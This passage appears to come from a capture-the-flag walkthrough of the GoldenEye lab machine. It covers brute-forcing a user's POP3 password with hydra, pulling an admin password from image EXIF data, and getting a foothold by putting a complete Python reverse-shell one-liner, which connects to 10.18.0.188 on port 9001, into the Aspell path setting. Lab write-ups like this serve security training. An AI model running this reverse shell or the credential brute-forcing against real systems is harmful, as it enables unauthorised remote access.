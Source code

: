 Once logged in, we see that we have a message from someone called Dr Doak.

![](12.png)

He said his username is `doak`, let's brute force the password with hydra.

![](13.png)

Let's check his pop3 email.

![](14.png)

We found his credentials for the website, let's login.

![](15.png)

We found secret file on Doak's private file, let's check it out.

```
007,

I was able to capture this apps adm1n cr3ds through clear txt. 

Text throughout most web apps within the GoldenEye servers are scanned, so I cannot add the cr3dentials here. 

Something juicy is located here: /dir007key/for-007.jpg

Also as you may know, the RCP-90 is vastly superior to any other weapon and License to Kill is the only way to play.
```

Let's download the image with the following command: `http://severnaya-station.com/dir007key/for-007.jpg`

I tried to extract any hidden files but couldn't, Let's check the exif data with `exiftool`.

![](16.png)

We found the password, let's login as admin.

![](17.png)


# **Foothold**

We now that Aspell is installed, so let's set it up to give a reverse shell.

First, go to the search bar and type `spell`.

![](18.png)

Change the spell engine to `PSpellShell`, and enter the following command into `Path to Spell`.

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.18.0.188",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
